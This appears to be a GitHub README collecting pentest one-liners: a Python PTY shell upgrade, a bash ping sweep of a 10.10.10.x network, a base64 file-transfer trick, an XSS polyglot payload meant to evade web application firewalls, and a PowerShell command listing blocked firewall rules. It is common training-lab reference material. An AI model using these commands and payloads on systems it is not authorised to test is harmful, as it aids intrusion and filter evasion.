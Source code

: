 # oneliners
Collection of handy one line things 

### ye olde pty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### look no nmap
```
for i in `seq 1 255`; do ping -c 1 10.10.10.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

### Upload not one line
```
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
```
## pentest 

### anti-waf
```
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
### blocked ports 
```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```
